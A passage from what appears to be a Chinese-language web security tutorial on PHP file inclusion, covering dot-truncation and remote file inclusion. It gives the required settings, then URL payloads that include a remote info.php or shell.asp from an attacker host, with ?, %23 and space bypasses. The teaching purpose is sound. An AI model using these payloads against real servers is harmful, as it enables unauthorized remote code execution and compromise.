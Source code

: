 ###### ③点号截断

1. 满足条件

   > * Windows下要长于**198字符**，超出部分会被丢弃
   > * **php < 5.3.4**
   > * 操作系统版本要是**低版本(例如Win7)**

2. 形式

   ```apl
   /action.php?action=phpinfo.php.....................................................................................................................................................................................................................................................
   ```

****

#### (2). 远程文件包含RFI

##### a. 条件

> 1. **allow_url_include = On**		(默认为Off)
> 2. allow_url_fopen = On   (是否允许打开远程文件)
> 3. 用户可以**动态控制变量**

##### b. 利用

```sql
#通过http协议加载目标机中的info.php文件
	[URL]?file= http://ip/info.php	
#通过ftp协议加载目标机中的info.php文件	
	[URL]?file= ftp://用户名:密码@ip/info.php	
```

![远程包含](http://113.45.142.235:9001/laffrex/pictures/QQ_1725696213402.png)

##### c. 绕过

1. 问号(``?``)绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp?
   ```

2. 井号(``#``)绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp%23
   ```

3. 空格绕过

   ```php
   [URL]?file=http://192.168.172.150/shell.asp%20
   	or
   [URL]?file=http://192.168.172.150/shell.asp+
   ```
